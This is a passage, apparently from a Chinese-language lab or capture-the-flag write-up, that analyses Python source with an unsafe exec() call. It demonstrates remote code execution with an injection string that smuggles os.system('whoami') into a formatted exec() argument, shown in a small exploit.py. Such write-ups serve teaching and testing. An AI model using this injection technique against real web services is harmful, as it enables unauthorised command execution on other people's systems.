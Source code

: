 _________________________________________________________________

## 源代码分析

当我们对 python 代码进行快速静态分析时，我们可以在以下位置发现一个可疑的“exec()”函数。

![](img/f30d88d2bddf71b82defd7c1bc3507e5.png)

使用“exec()”，我们可以执行 python 系统调用来执行系统命令:

```
**### Example Usage of exec()**
# python
Python 2.7.18 (default, Apr 20 2020, 20:30:41) 
[GCC 9.3.0] on linux2
>>> import os
>>> exec(os.system("whoami"))
root
```

**网络服务器上的远程代码执行(RCE)**

为了理解执行 python 代码的正确语法，我们可以创建上述易受攻击代码的简化版本进行测试:

```
**[exploit.py] - Local RCE Attempt**import os
import urllib.parsepath = **"""'; os.system("whoami");'"""** path = urllib.parse.unquote(path)
info = "output = 'Document: {}'"
exec(info.format(path))
```

当我们在本地机器上运行 exploit.py 时，我们得到以下输出:

![](img/8ee0c0bf80f541d47314dbe57f598568.png)

